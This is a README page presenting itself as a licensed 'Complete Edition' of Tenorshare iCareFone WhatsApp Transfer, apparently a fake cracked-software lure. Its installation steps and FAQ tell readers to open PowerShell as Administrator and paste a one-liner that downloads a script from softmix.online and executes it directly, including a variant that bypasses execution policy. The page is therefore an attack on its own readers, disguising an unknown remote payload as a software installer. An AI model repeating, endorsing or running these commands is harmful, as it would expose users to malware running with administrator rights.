

<div align="center">


<br>


# Tenorshare iCareFone WhatsApp Transfer Ultimate
**Ultimate WhatsApp transfer · Cross-device migration · Premium backup manager**
<br>
**Ultimate WhatsApp transfer · Cross-device migration · Premium backup manager**
<br>
Complete Edition · Premium Build · Windows · Deployment



**Complete Edition — all iCareFone modules and ultimate WhatsApp transfer tools enabled.**

</div>
---

> Licensed ultimate iCareFone with WhatsApp transfer and every premium backup module included.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

📱 **Device toolkit** — iOS and Android management modules enabled.
📦 **Local desktop suite** — Works on Windows after setup.
🖥️ **Windows native** — Optimized for Windows 10/11 64-bit.
⚙️ **Pro modules** — Premium mobile utilities enabled in this build.
📋 **Complete toolkit** — Backup, transfer and repair workflows included.
✨ **Enterprise ready** — Deployment package for support teams.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 4 GB |
| **Disk** | 500 MB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 4 GB, 500 MB.
</details>


TAGS
tenorshare-icarefone, whatsapp-transfer, cross-device, backup-manager, chat-migration, ios-android, professional, windows, desktop, software, pro, studio, tools
